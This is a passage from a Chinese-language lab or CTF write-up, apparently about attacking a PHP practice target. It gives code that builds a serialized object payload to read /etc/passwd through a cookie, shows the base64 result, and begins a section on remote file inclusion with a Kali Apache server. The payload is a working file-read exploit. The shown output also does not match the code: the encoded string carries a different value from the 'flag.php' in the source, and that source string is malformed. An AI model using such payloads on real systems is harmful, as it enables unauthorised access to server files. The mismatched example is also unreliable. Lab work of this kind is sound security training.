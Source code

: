 观察`index.php`，对于cookie的操作是需要使用`base64`解码的。所以我们需要对字符串做二次处理

```php
<?php
$str = 'O:4:"User":2:{s:10:"%00User%00name;s:8:"flag.php";s:9:"%00User%00wel";O:3:"Log":1:{s:13:"%00Log%00type_log";s:11:"/etc/passwd";}}';
$str = urldecode($str);
$str = base64_encode($str);
echo $str;
```

==输出==

```
Tzo0OiJVc2VyIjoyOntzOjEwOiIAVXNlcgBuYW1lIjtzOjM6InNrNCI7czo5OiIAVXNlcgB3ZWwiO086MzoiTG9nIjoxOntzOjEzOiIATG9nAHR5cGVfbG9nIjtzOjExOiIvZXRjL3Bhc3N3ZCI7fX0=
```

Hackbar 输出

![image-20230527155928712](%E9%9D%B6%E5%9C%BA%E8%AE%AD%E7%BB%83.assets/image-20230527155928712.png)

## 渗透测试

文件包含漏洞分为两类：

+ 远程文件包含
+ 本地文件包含

我们此时尝试远程文件包含，Kali搭建apache服务器

![image-20230527160124530](%E9%9D%B6%E5%9C%BA%E8%AE%AD%E7%BB%83.assets/image-20230527160124530.png)

